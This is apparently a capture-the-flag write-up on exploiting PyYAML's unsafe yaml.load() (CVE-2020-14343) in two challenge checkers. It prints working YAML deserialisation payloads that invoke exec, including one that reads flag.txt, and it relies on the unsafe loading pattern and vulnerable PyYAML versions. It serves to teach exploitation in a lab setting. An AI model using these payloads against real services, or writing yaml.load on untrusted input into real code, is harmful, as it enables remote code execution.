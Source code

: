 ```yaml
---
description: PyYAML deserialisation vulnerability (CVE-2020-14343).
---
```


# Challenge Checker

### Challenge Checker 1

We are prompted to paste in YAML data. We can see from the code that `yaml.load()` is used to load the data.

```python
from yaml import load

...

def check(raw_data) -> "Tuple[list[str], list[str]]":
    data = load(raw_data)
```

There exists a deserialization exploit in PyYAML that was only fixed in version 5.4.1.

Issue: [https://github.com/yaml/pyyaml/issues/420](https://github.com/yaml/pyyaml/issues/420) GitHub Advisory \(CVE-2020-14343\): [https://github.com/advisories/GHSA-8q59-q68h-6hv4](https://github.com/advisories/GHSA-8q59-q68h-6hv4)

We can see from `requirements.txt` that the version is 3.13, which is vulnerable.

```text
PyYAML==3.13
termcolor==1.1.0
```

From the GitHub issue, we can find some of the proof of concept exploits. For instance:

```yaml
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "RCE_HERE"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

So, in the `chall.yaml`, I simply added this PoC under `authors:`

```yaml
authors:
  - anli
  - Edward Feng
  - !!python/object/new:str
    args: []
    state: !!python/tuple
    - "print(open('flag.txt').read())"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
visible: true
```

This executes `print(open('flag.txt').read())` and reads the flag.

![](../../.gitbook/assets/4347471a4f1e4a4ca99ad0db0f2c215c.png)

### Challenge Checker 2

The only change is that PyYAML is now version 5.3.1.

```text
PyYAML==5.3.1
termcolor==1.1.0
```

But the exploit we used previously affected all versions below 5.4.1, so it works here too.

![](../../.gitbook/assets/805250a1ce264cd4b11ff80ba35e2ff7.png)

